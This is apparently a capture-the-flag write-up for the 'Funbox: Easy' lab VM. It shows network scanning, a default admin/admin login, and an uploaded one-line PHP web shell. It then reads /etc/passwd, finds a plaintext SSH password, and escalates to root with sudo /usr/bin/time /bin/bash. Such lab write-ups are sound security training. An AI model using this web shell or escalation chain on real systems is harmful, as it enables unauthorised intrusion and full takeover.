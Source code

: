 
# Write-Up funbox:  Easy
## 1. Enumeration

i used netdicover to see where is ur lab

```terminal
sudo netdiscover
```

![target](/assets/img/funbox_easy/funbox3_netdiscover.png)

target is : 192.168.137.45

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.45

```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
![target](/assets/img/funbox_easy/funbox3_nmap.png)

I checked this website . hmm apache default . I think this site have more

![target](/assets/img/funbox_easy/funbox3_checkport80.png)

so i used dirsearch to check subfolder of this site and i used default command

```terminal
dirsearch -u http://192.168.137.45
```

much more interesting i imagine 

![alt text](/assets/img/funbox_easy/funbox3_dirsearch.png)

## 2. Post Exploitation

first, i check /admin/ and i see a login simple i wanna try bruteforce but i cann't recive anything .

![alt text](/assets/img/funbox_easy/funbox3_dir_admin.png)

second, i look /store/ and boom i see a opensource store ? but i focus on admin login

![alt text](/assets/img/funbox_easy/funbox3_dir_store.png)


yeah, after that's i had been disconnected so i was be changed ip victims is 192.168.205.5

i followed admin/store login page 
![alt text](/assets/img/funbox_easy/funbox3_adminlogin_store.png)

i try login with user is admin and password is admin andddd bummm i can login with admin account then look at page i think i can upload a simple shell with add a book .

![alt text](/assets/img/funbox_easy/funbox3_admin_book.png)


![alt text](/assets/img/funbox_easy/funbox3_upload_a_book.png)

i will try upload a simple shell to take over this site
this file is ```shell.php```

```php
<?php echo system($_GET["cmd"]);?> 

```

after uploading answer the question. How can i trigger that's file i look a file i upload i can see a link

![alt text](/assets/img/funbox_easy/funbox3_see_file_uploads.png)

it's time to take control this site. 

![alt text](/assets/img/funbox_easy/funbox3_RCE_www-data.png)

but not enough for me i wanna ```root```

i see ```  /etc/passwd ``` hope to see something

![alt text](/assets/img/funbox_easy/funbox3_usertony.png)

i see user Tony let's check ```/home/tony```
i see a file is password.txt and i can see user ssh of Tony 

![alt text](/assets/img/funbox_easy/funbox3_home_tony.png)
![alt text](/assets/img/funbox_easy/funbox3_password_ssh_tony.png)

ssh time

## 3. Privilege Escalation

![alt text](/assets/img/funbox_easy/funbox3_SUID_tony.png)

i use ``` sudo -l ``` for some tricky
 
and i see ``` usr/bin/time ``` can run with sudo and  ``` NOPASSWD ```

right now we can run to privilege escalation 

```
sudo /usr/bin/time /bin/bash
```

right now we can get a ``` root ``` 

![alt text](/assets/img/funbox_easy/funbox3_root.png)
## Bingo and thanks for reading
